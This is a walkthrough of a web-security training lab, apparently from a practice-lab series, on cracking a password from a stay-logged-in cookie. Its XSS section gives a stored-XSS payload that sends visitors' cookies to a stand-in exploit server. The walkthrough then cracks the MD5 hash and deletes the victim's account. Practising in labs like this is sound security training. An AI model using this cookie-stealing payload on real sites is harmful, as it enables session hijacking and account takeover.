# Lab 08: Offline password cracking

> This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.
> 

🎯 **Objective**: Obtain **Carlos's stay-logged-in cookie**, crack his password, log in as Carlos, and delete his account from the **"My account"** page.

---

### 🧑‍💻 Credentials

- 👤 **Your credentials**: `wiener:peter`
- 🎯 **Victim's username**: `carlos`

---

### ✅ Solution

1. 🕵️‍♂️ With **Burp** running, use your account to inspect the **"Stay logged in"** functionality.
2. 🔍 In **Proxy > HTTP history**, go to the **Response** to your login request.
3. 📦 Highlight the `stay-logged-in` cookie to find the structure:
    
    ```
    username + ':' + md5HashOfPassword
    ```
    
    
    
    
    
    
    
    
    

---

### 🧨 Exploit the XSS Vulnerability

1. 🖱️ Observe that the comment section is vulnerable to **stored XSS**.
2. 🌐 Go to the **exploit server** and note your unique **exploit-server URL**.
3. 📝 Go to one of the blogs and **post a comment** containing this payload (replace with your own server ID):
    
    ```html
    <script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
    
    ```
    
    
    
    
    
    
    

---

### 🕵️‍♀️ Capture Carlos’s Cookie

1. 🔎 On the **exploit server**, check the **access log**.
    
    💡 You should see a request from the victim **containing their `stay-logged-in` cookie**.
    
2. 🧮 Decode the cookie using **Burp Decoder**.
    
    You’ll see something like:
    
    ```
    carlos:26323c16d5f4dabff3bb136f2460a943
    ```
    
    
    
    
    
    
    

---

### 🧠 Crack the Password

1. 🔑 Paste the hash into a search engine.
    
    It reveals the password is:
    
    ```
    onceuponatime
    ```
    
    
    

---

### 🧹 Delete Carlos's Account

1. 🔐 Log in to **Carlos’s account** using the cracked password.
2. 🗑️ Navigate to **"My account"**, then **delete** the account to solve the lab.
    
    
    
    
    

---

### ⚠️ Note

> The purpose of this lab is to demonstrate offline password cracking using hashes.
> 
> 
> In real-world testing, avoid pasting real client password hashes into public search engines. Use tools like **Hashcat** instead. 🛠️
> 

---

### 📺 Community Solution

▶️ [Watch on YouTube](https://youtu.be/RFt3YbGDkQ4)